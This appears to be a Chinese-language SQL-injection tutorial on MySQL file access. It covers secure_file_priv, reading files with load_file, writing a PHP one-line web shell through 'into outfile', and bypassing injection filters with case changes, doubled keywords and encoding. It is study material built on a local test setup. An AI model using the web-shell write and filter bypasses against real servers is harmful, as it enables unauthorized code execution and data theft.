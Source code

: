 <br/>


## 读/写 文件
mysql可以对文件进行读写，但是存在限制。`secure_file_priv`是一个系统变量，用来限制文件的读/写权限，该变量有三个参数分别对应不同的结果
- 无内容：没有限制
- NULL：禁止文件读/写
- 目录：只能对该目录的文件进行读/写

可以用`show global variables like 'secure_file_priv';`查看该值的内容
```sql
mysql> show global variables like 'secure_file_priv';
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv | NULL  |
+------------------+-------+
1 row in set, 1 warning (0.01 sec)
```
注：该变量在mysql的5.5.53之后的版本默认为null，之前版本则为无内容。可以通过修改my.ini改变该值

### 读文件
如果该值为空或者指定目录就可以进行文件的读取，利用`load_file`函数对文件进读取操作
```sql
mysql> select load_file('D:\\phpstudy_pro\\WWW\\flag.txt');
+----------------------------------------------+
| load_file('D:\\phpstudy_pro\\WWW\\flag.txt') |
+----------------------------------------------+
| flag{test_233}                               |
+----------------------------------------------+
1 row in set (0.00 sec)
```
限制：需要知道要读取的文件所在的绝对路径，同时读取文件大小必须不能超过`max_allowed_packet`的值

### 写文件
利用`into outfile`函数对文件进行写入操作
```sql
mysql> select "<?php @assert($_GET['cmd']);?>" into outfile 'D:\\phpstudy_pro\\www\\shell.php';
Query OK, 1 row affected (0.00 sec)
```
限制：`into outfile`无法覆盖文件，同时需要文件有写权限

<br/>

## 绕过姿势
- 大小写绕过
mysql对大小写不敏感，所以可以用大小写进行绕过（`And`，`ANd`，`aND`...）

- 双写绕过
当后台只是将输入的字符替换成空的时候就可以用双写进行绕过（`selecselectt`，`uniounionn`）

- 编码绕过
可以用十六进制、ascii码进行绕过
